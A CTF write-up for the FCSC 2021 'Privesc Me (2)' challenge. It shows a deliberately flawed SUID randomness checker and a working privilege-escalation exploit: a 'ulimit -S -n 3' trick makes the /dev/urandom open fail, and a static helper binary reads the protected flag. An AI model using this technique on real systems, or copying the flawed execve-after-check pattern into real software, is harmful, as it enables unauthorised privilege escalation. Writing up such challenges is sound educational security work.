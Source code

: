 +++
title = "[FCSC 2021 - misc] Privesc Me (2) - \"ALED\" - Your randomness checker"
tags = ["ctf", "ret2school", "FCSC", "0p", "0poss", "2021", "misc", "privesc"]
date = "2021-05-03"
+++

# Privesc Me (2) - "ALED" - Your randomness checker (misc - 194 pts)

> Le dernier stagiaire de l'équipe nous a pondu un nouveau programme pour tester la robustesse des clés d'authentification que notre administrateur système utilise. Son outil est disponible dans le dossier stage1. Le chef a poussé un soupir d'agacement en voyant le code.

I found this one pretty fun and I think it was my favorite along with "It's mipsy router".

Once connected to the ssh, into the `stage1` folder, there are four files, `build.sh`, `flag.txt` (I wonder what that is), `stage1` (a SUID binary) and its source in `stage1.c`, here it is :
```c
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <string.h>
#define BUF_SIZE 128

int main(int argc, char const *argv[]) {

    if(argc != 3){
        printf("Usage : %s <key file> <binary to execute>", argv[0]);
    }
    setresgid(getegid(), getegid(), getegid());

    int fd;
    unsigned char randomness[BUF_SIZE];
    unsigned char your_randomness[BUF_SIZE];
    memset(randomness, 0, BUF_SIZE);
    memset(your_randomness, 0, BUF_SIZE);

    int fd_key = open(argv[1], O_RDONLY, 0400);
    read(fd_key, your_randomness, BUF_SIZE);

    fd = open("/dev/urandom", O_RDONLY, 0400);
    int nb_bytes = read(fd, randomness, BUF_SIZE);
    for (int i = 0; i < nb_bytes; i++) {
        randomness[i] = (randomness[i] + 0x20) % 0x7F;
    }

    for(int i = 0; i < BUF_SIZE; i++){
        if(randomness[i] != your_randomness[i]) {
            puts("Meh, you failed");
            return EXIT_FAILURE;
        }
    }
    close(fd);
    puts("Ok, well done");
    char* arg[2] = {argv[2], NULL};
    execve(argv[2], arg, NULL);
    return 0;
}
```
It initializes two 128 bytes-long arrays with zeros and compares them. If they are the same, we get to execute any program we want... maybe `sh` ?

The `build.sh` file contains `gcc stage1.c -static -o stage1`. I guess the `-static` is here to prevent any `LD_PRELOAD`, that would be to easy. But this option gave me the idea for the exploit.

By googling things like "predict /dev/urandom ctf writeup" I found several [writeup](https://nickcano.com/pwnables-write-ups-oct17/)s on several similar challenges that were using `ulimit -f 0` in order to limit "the maximum size of files created by the shell" (- man). But the program here doesn't create any file to write the random content to it, but just reads from `/dev/urandom`. So we have to prevent it from reading from `urandom` to keep the `randomness` array filled with zeros. The `-n` option in the `ulimit` command allows to set a limit on the number of opened file descriptors.
I modified the original source on my system to make it print when the file openings fail and where the comparaison fails :
```c
int main(int argc, char const *argv[]) {

    if(argc != 3){
        printf("Usage : %s <key file> <binary to execute>", argv[0]);
    }
    setresgid(getegid(), getegid(), getegid());

    int fd;
    unsigned char randomness[BUF_SIZE];
    unsigned char your_randomness[BUF_SIZE];
    memset(randomness, 0, BUF_SIZE);
    memset(your_randomness, 0, BUF_SIZE);

    int fd_key = open(argv[1], O_RDONLY, 0400);
    read(fd_key, your_randomness, BUF_SIZE);
    if (-1 == fd_key)
	    puts("key open failed");

    fd = open("/dev/urandom", O_RDONLY, 0400);
    if (-1 == fd)
	    puts("/dev/urandom open failed");

    int nb_bytes = read(fd, randomness, BUF_SIZE);
    for (int i = 0; i < nb_bytes; i++) {
        randomness[i] = (randomness[i] + 0x20) % 0x7F;
    }

    printf("%128s\n", randomness);
    printf("%128s\n", your_randomness);
    for(int i = 0; i < BUF_SIZE; i++){
        if(randomness[i] != your_randomness[i]) {
	    printf("%#x : (%#x != %#x)", i, randomness[i], your_randomness[i]);
            puts("Meh, you failed");
            return EXIT_FAILURE;
        }
    }
    close(fd);
    puts("Ok, well done");
    char* arg[2] = {argv[2], NULL};
    execve(argv[2], arg, NULL);
    return 0;
}
```
Compile it with `gcc stage1.c -static -o stage1`.

By running `ulimit -n 3 ; ./stage1 osef /bin/sh` locally, we get :
```
bash: start_pipeline : pgrp pipe: Trop de fichiers ouverts
key open failed
/dev/urandom open failed                                                                                           
Ok, well done
/bin/sh: error while loading shared libraries: libc.so.6: cannot open shared object file: Error 24
```
It says "Ok, well done" (nice) but also `/bin/sh: error while loading shared libraries: libc.so.6: cannot open shared object file: Error 24`. Yeah obviously, `sh` is cannot load any dynlib since it already has 3 file descriptors open (stdin, stdout and stderr). So either we recompile `/bin/sh` statically, which I didn't do, or we just make another program, statically linked, to read the flag for us. Here it is :
```c
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>
#include <fcntl.h>
#include <sys/resource.h>

int main() {
	struct rlimit lim = { 0 };
	if (0 != getrlimit(RLIMIT_NOFILE, &lim))
	{
		puts("Meh");
		return 1;
	}
	printf("Hard/soft limits : %ld/%ld\n", lim.rlim_cur, lim.rlim_max);

	lim.rlim_cur = lim.rlim_max;
	if (0 != setrlimit(RLIMIT_NOFILE, &lim))
	{
		puts("w00t");
		return 2;
	}

	if (0 != getrlimit(RLIMIT_NOFILE, &lim))
	{
		puts("Meh");
		return 3;
	}
	printf("Hard/soft limits : %ld/%ld\n", lim.rlim_cur, lim.rlim_max);

	char flag_buf[256] = { 0 };
	int fd = open("/home/challenger/stage1/flag.txt", O_RDONLY);
	if (-1 == fd)
	{
		puts("Phuck");
		return 4;
	}

	int red = read(fd, flag_buf, sizeof(flag_buf));
	printf("%d bytes read : %s\n", red, flag_buf);

	return 0;
}
```

It sets the soft limit of opened file descriptors to the maximum, that's why we need to use `-S` in the final exploit to set the soft limit instead of the default hard limit (which we can't increase afterwards).
I compile this remotly and...
```bash
$ ulimit -S -n 3 ; ./stage1 osef /tmp/yEyyy/exploit
-bash: start_pipeline: pgrp pipe: Too many open files
Ok, well done
Hard/soft limits : 3/1048576
Hard/soft limits : 1048576/1048576
70 bytes read : FCSC{6bd1152e8dcefc368b08a3e82241bc83ea7a613a3322c6a2d818d408e1fb4d60}
```

Yay.

